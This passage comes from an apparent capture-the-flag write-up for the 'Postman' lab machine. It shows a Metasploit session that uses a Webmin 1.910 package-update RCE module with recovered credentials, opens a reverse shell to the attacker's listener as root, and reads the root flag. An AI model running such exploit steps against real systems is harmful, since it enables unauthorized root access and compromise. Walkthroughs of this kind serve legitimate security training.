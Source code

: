 ![[Pasted image 20250701200832.png]]
Default credentials such as `admin:admin`, `postman:postman`, etc. did not work and RCE exploits for Webmin all require some form of authentication. We will keep this in mind later when we start to obtain some credentials.

We see that the Webmin version is 1.910 and we can further view exploits to see which fits best. The particular exploit we will use it `exploit/linux/http/Webmin_packageup_rce`: Description: This module exploits an arbitrary command execution vulnerability in Webmin 1.910 and lower versions. Any user authorized to the "Package Updates" module can execute arbitrary commands with root privileges.

If Matt is part of the "Package Updates" module, we will be able to get a reverse shell as root and be able to read the flag.

```bash
msf5 > use exploit/linux/http/Webmin_packageup_rce
msf5 exploit(linux/http/Webmin_packageup_rce) > set LHOST 10.10.14.54
LHOST => 10.10.14.54
msf5 exploit(linux/http/Webmin_packageup_rce) > set RHOST postman.htb
RHOST => postman.htb
msf5 exploit(linux/http/Webmin_packageup_rce) > set USERNAME Matt
USERNAME => Matt
msf5 exploit(linux/http/Webmin_packageup_rce) > set PASSWORD computer2008
PASSWORD => computer2008
msf5 exploit(linux/http/Webmin_packageup_rce) > set SSL true
SSL => true
msf5 exploit(linux/http/Webmin_packageup_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.54:4444 
[+] Session cookie: d7c9f0b81683e4db959da275e60a1a30
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.54:4444 -> 10.10.10.160:36766)

whoami
root
cat /root/root.txt
a25774**************************
```